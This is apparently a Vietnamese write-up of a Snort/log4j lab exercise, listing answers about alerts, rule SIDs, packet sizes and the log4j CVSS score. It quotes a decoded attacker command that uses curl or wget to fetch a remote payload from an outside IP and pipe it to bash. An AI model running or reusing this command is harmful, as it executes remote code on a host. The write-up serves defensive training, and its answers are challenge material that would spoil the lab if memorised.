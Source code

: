 ## Trả lời các câu hỏi dưới đây
Điều hướng đến thư mục tác vụ.

Sử dụng  tệp pcap được cung cấp.

Sử dụng tệp quy tắc được cung cấp ( local.rules ) để điều tra việc khai thác log4j.

**Cau 1:** Số lượng gói tin được phát hiện là bao nhiêu?

26

**Cau 2:** Kiểm tra  các tập tin nhật ký/báo động.

Có bao nhiêu quy tắc đã được kích hoạt?
**Mỗi alert có 1 sid riêng**
![alt text](../png/snc20.png)
4


**Cau 3:** Kiểm tra  các tập tin nhật ký/báo động.
Sáu chữ số đầu tiên của sid quy tắc được kích hoạt là gì?

210037


**Cau 4:** Xóa các tệp nhật ký và cảnh báo trước đó.

Sử dụng  tệp local-1.rules  trống để viết quy tắc mới nhằm phát hiện các gói tin có kích thước từ 770 đến 855 byte .

Số lượng gói tin được phát hiện là bao nhiêu?
![alt text](../png/snc21.png)
>41



**Cau 5:** Kiểm tra  các tập tin nhật ký/báo động.

Tên của thuật toán mã hóa được sử dụng là gì ?

**Dùng** `sudo strings snort.log.1689857521`
![alt text](../png/snc22.png)
>**Base64**


**Cau 6:** Kiểm tra  các tập tin nhật ký/báo động.

ID IP của gói tin tương ứng là  gì ? 
**Dùng** `sudo strings alert | grep -e 45.155.205.233 -e ID`
![alt text](../png/snc23.png)

> **62808** 


Kiểm tra  các tập tin nhật ký/báo động.

Giải mã lệnh được mã hóa.

Lệnh của kẻ tấn công là gì?
**B1**
![alt text](../png/snc24.png)
**B2** giải mã
![alt text](../png/snc25.png)
>**(curl -s 45.155.205.233:5874/162.0.228.253:80||wget -q -O- 45.155.205.233:5874/162.0.228.253:80)|bash**


**Cau 7:** Điểm CVSS v2 của lỗ hổng Log4j là bao nhiêu?
tra gg
>**9.3**

